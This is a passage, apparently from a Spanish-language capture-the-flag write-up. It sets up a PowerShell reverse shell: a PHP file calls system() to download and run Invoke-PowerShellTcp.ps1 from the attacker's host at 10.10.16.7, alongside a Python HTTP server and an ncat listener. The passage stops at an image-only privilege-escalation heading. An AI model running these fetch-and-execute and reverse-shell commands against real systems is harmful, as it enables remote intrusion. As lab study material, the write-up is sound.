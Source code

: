 1. Descargaremos `Invoke-PowerShellTcp.ps1` y en la ultima linea debemos de poner la linea de codigo para que se ejecute.

 2. Iniciar un servidor en el `8000` del directorio donde se encuentra el archivo `Invoke-PowerShellTcp.ps1`.
 
```python
❯ python3 -m http.server 8000
```

3. Ahora crearemos un archivo `php_revershell.php` que contendrá:

```python
system('powershell -c iex(new-object net.webclient).downloadString("http://10.10.16.7:808/Invoke-PowerShellTcp.ps1")')
```

4. Luego iniciaremos otro servidor en el puerto `80` donde se encuentra nuestro archivo `php_revershell.php`

```python
❯ python3 -m http.server 80

```

5. Finalmente debemos de ponernos a la escucha con `ncat`

```python
❯ rlwrap ncat -lnvp 443
```

Luego debemos de hacer la petición a nuestro servidor con el nombre de nuestro archivo, que en nuestro caso es  `php_revershell.php`.

![20240325174132.png](20240325174132.png)

# Escalada de privilegios

## Usuario - yoshihide

![20240325174235.png](20240325174235.png)
